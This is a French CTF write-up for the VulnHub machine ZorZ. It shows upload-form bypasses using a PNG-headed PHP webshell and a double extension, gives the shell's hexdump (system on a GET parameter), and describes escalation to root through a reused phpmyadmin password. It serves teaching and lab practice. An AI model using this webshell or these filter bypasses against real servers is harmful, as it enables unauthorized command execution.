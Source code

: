 ```yaml
---
title: "Solution du CTF ZorZ de VulnHub"
tags: [CTF, VulnHub]
---
```


[TopHatSec: ZorZ](https://vulnhub.com/entry/tophatsec-zorz,117/) fait partie de la même série que le CTF [Freshly](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20Freshly%20de%20VulnHub.md). On va potentiellement rester sur notre fin aussi car il semble qu'il n'y ait rien prévu pour l'escalade de privilèges... mais sait-on jamais.

> This machine will probably test your web app skills once again.
> 
> There are 3 different pages that should be focused on (you will see!) If you solve one or all three pages, please send me an email and quick write up on how you solved each challenge.
> 
> Your goal is to successfully upload a webshell or malicious file to the server.
> 
> If you can execute system commands on this box, thats good enough!!! I hope you have fun!

On a une page d'index avec un formulaire d'upload. Je lance tout de même `feroxbuster` qui me trouve d'autres ressources :

```
301        9l       28w      318c http://192.168.56.90/javascript
301        9l       28w      318c http://192.168.56.90/phpmyadmin
403       10l       30w      293c http://192.168.56.90/server-status
200       15l       31w      367c http://192.168.56.90/
301        9l       28w      314c http://192.168.56.90/jQuery
301        9l       28w      316c http://192.168.56.90/uploads2
301        9l       28w      316c http://192.168.56.90/uploads3
200       15l       31w      367c http://192.168.56.90/index.html
200       16l       38w      457c http://192.168.56.90/index2.html
200        4l       10w       76c http://192.168.56.90/uploader.php
```

Manuellement et par logique je trouve aussi le dossier `uploads1` à la racine.

J'utilise généralement un shell PHP qui contient juste un entête PNG avec ensuite un appel à `system()`. Ce n'est pas une image valide mais le fichier peut passer quelques filtres.

Quoiqu'il en soit ici ça passe comme dans du beurre :

```
File is valid, and was successfully uploaded.

Here is some more debugging info:Array
(
    [upfile] => Array
        (
            [name] => shell.php
            [type] => application/x-php
            [tmp_name] => /tmp/phpeKXzw6
            [error] => 0
            [size] => 71
        )

)
```

Je retrouve mon shell dans le dossier `uploads1` et je peux par exemple faire exécuter la commande `id` :

`uid=33(www-data) gid=33(www-data) groups=33(www-data)`

Le second formulaire d'upload semble plus restrictif :

> Success! image/png.Sorry, only JPG, JPEG, PNG & GIF files are allowed.Sorry, your file was not uploaded.

Je renomme seulement mon fichier en `shell.php.png` et là ça passe :

> Success! image/png.The file shell.php.png has been uploaded.

Il apprait dans `uploads2` et est bien interprété.

Le dernier formulaire d'upload est moins basique et se base sur jQuery. Quand on sélectionne le fichier ce dernier apparait d'abord en preview avec le protocole `data://` et il faut reclicker sur `upload` pour terminer.

Mon shell précédent s'upload sans difficultés bien qu'il rale un peu sur les dimensions de l'image.

Il est temps d'explorer le système.

`LinPEAS` me trouve un fichier de configuration `/etc/phpmyadmin/config-db.php` qui contient des identifiants :

```php
<?php
##
## database access settings in php format
## automatically generated from /etc/dbconfig-common/phpmyadmin.conf
## by /usr/sbin/dbconfig-generate-include
## Tue, 17 Feb 2015 20:54:38 -0500
##
## by default this file is managed via ucf, so you shouldn't have to
## worry about manual changes being silently discarded.  *however*,
## you'll probably also want to edit the configuration file mentioned
## above too.
##
$dbuser='phpmyadmin';
$dbpass='toor2600root';
$basepath='';
$dbname='phpmyadmin';
$dbserver='';
$dbport='';
$dbtype='mysql';
```

Le mot de passe fonctionne pour l'utilisateur `user` qui est admin car a toutes les autorisations sudo :

```
www-data@zorz:/tmp$ su user
Password: 
user@zorz:/tmp$ sudo -l
[sudo] password for user: 
Matching Defaults entries for user on zorz:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User user may run the following commands on zorz:
    (ALL : ALL) ALL
user@zorz:/tmp$ sudo su
root@zorz:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```

Pour les curieux voici un hexdump de mon shell PHP :

```
00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 3c 3f 70 68 70 0a 73  79 73 74 65 6d 28 24 5f  |.<?php.system($_|
00000020  47 45 54 5b 22 63 6d 64  22 5d 29 3b 0a 3f 3e 0a  |GET["cmd"]);.?>.|
```

*Publié le 2 janvier 2023*
